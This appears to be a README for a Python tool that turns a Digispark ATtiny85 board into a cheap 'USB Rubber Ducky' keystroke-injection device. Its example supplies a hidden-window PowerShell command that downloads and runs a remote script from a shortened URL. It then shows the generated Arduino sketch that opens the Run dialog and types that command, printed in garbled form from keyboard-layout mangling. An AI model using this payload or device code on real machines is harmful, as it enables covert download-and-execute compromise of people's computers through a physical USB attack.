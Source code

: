 # Digispark ATtiny85 as a Cheap "USB Rubber Ducky"

##Usage
    python DigiDuck.py
    Enter command to execute: [COMMAND]
  
##Example

    python DigiDuck.py
    Enter command to execute: powershell -window hidden IEX (New-Object System.Net.Webclient).DownloadString('https://tinyurl.com/z766ych')
    Attack.ino file created successfully!

##Output

```    
#define KEY_DELETE 76

  void setup() {
  DigiKeyboard.update();
}

void loop() {
  delay(100);
  DigiKeyboard.update();
  delay(100);
  
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  delay(100);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  delay(50);
  DigiKeyboard.println("powershell /window hidden IEX *New/Object System.Net.Webclient(.DownloadString*-https>&&tinyurl.com&z766ych-(");
  delay(900000);
}
```
